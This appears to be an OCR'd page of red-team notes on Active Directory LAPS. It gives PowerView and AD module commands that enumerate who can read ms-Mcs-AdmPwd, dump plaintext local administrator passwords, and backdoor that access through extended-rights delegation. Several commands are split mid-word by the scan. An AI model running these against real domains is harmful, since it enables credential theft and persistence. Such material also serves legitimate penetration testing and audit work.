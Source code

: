 ```pwsh
Get-DomainOU -GPLink "C3801BA8-56D9-4F54-B2BD-FE3BF1A71BAA" -Properties distinguishedname
```
```pwsh
Get-DomainComputer -SearchBase "LDAP://OU=OUName,DC=Domain,DC=local" -Properties distinguishedname
```

#### Using PowerView
Script: [PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

```pwsh
Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object {($_.Objecttype -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentitySID' $(Convert-NameToSid $_.IdentityReference).SID; $_ }
```

```pwsh
Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=testlab,DC=local" -ResolveGUIDs | Where-Object { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.A
ctiveDirectoryRights -like "*ReadProperty*" } | Select-Object ObjectDN, SecurityIdentifier

Get-DomainObjectAcl -SearchBase "LDAP://OU=Servers,DC=testlab,DC=local" -ResolveGUIDs | Where-Object { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.Activ
DirectoryRights -like "*ReadProperty*" } | Select-Object ObjectDN, SecurityIdentifier

Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=testlab,DC=local" -ResolveGUIDs | Where-Object { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.A
ctiveDirectoryRights -like "*ReadProperty*" } | Select-Object ObjectDN, SecurityIdentifier | % { $_ | Add-Member NoteProperty 'ResolvedName' $(Convert-SidToName $
_.SecurityIdentifier); $_ }
```

#### LAPS Password Data
Once the appropriate rights have been acquired, we can get the list of computers and their LAPS passwords.

```pwsh
Get-Adcomputer -Filter {ms-mcs-admpwdexpirationtime -like '*'} -Prop 'ms-mcs-admpwd', 'ms-mcs-admpwdexpirationtime'
```

Reading passwords with AdmPwd module:

```pwsh
Get-AdmPwdPassword -ComputerName computerName | f1
```

With PowerView:

```pwsh
Get-DomainObject -Identity computerId -Properties ms-mcs-admpwd
```

#### Backdooring View LAPS Password Data
If a group is delegated "All Extended Rights" to an OU that contains computers managed by LAPS, it has the ability to view confidential attributes, including the LAPS attribute ms-mcs-admpwd which contains the plain text password.
